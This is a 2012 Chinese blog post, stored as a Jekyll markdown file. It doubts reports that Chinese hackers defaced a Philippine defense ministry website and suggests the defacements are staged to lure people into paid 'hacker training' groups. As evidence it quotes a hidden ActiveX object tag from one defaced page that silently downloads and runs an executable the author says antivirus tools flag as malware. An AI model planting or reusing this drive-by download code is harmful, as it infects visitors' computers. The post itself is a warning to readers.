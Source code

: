 ```yaml
---
author: 阿安
comments: true
date: 2012-05-10 15:40:05+00:00
layout: post
slug: cnhacker-the-philippines
title: 菲律宾国防部官网被红客攻陷了？大误！！！
wordpress_id: 383
categories:
- 未分类
tags:
- 红客
- 菲律宾国防部
---
```


今天听说菲律宾官方网站被黑，于是进去看了看。
发现 http://www.pei.net.ph/ 和 http://lam IT an.gov.ph/ 确实被黑了，显示了中国国旗。
　　
疑点1.
　　我们进行了GOOGLE搜索和百度搜索，发现没有任何搜索引擎以前的收录记录，试想一个国家的网站，访问量应该很大，而且从这个网站运作，应该就被搜索引擎收录过，我们发现了上次快照更新时间已经是昨天了。那么，一个国家的机要网站，在发现自己被黑后一天都没人处理，难道他们国家没有技术人员了吗？<!-- more -->
　　
疑点2.
　　我们通过查询了源代码和主机地址，发现网站http://lamitan.gov.ph/服务器放置地在美国。
　　然后该网站还被挂了马。试想自己黑了给那么多华人看，攻击的人需要挂马害自己人吗，显示这个事情有猫腻。我们查看了源文件，发现了这样一段代码。

    
    
    <object classid="CLSID:c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61" width="0" codebase="*ActiveX.cab#Version=1,0,0,1" id="*ActiveX1" height="0">
     
    <param name="propProgressbackground" value="#bccee8">
     
    <param name="propTextbackground" value="#f7f8fc">
     
    <param name="propBarColor" value="#df0203">
     
    <param name="propTextColor" value="#000000">
     
    <param name="propWidth" value="0">
     
    <param name="propHeight" value="0">
     
    <param name="propDownloadUrl" value="http://www.sulu.gov.ph/admin/cal/135pk.exe">
     
    <param name="propPostdownloadAction" value="run">
     
    <param name="propInstallCompleteUrl" value="">
     
    <param name="propbrowserRedirectUrl" value="">
     
    <param name="propVerbose" value="0">
     
    <param name="propInterrupt" value="0">
     
    </object>
    



疑点3.
　　下载这个135pk.exe文件 上传到了查毒网，全部显示为病毒。而且如果是菲律宾官方挂的，也不用自动隐藏下载打开吧，文件有350KB 也不像是什么插件之类的。攻击的网站也不是菲律宾政府官网，而真正的官网应该是： www.gov.ph
　　
　　然后我们在网上查到了.ph的菲律宾域名80元即可注册购买，因此。该事件在没有得到论证以前请没有经验的用户不要去打开。被钓鱼就麻烦了!
　　
　　以上三个疑点说明 有人故意做了假网站，跟随菲律宾能源网站被黑一事在自己谋利。谋什么利呢 ，我们进群发现群管理不断发内容招人。招学员之类的。
        这个.....不用继续往下说了吧?

-----------------------
本文转自银河系
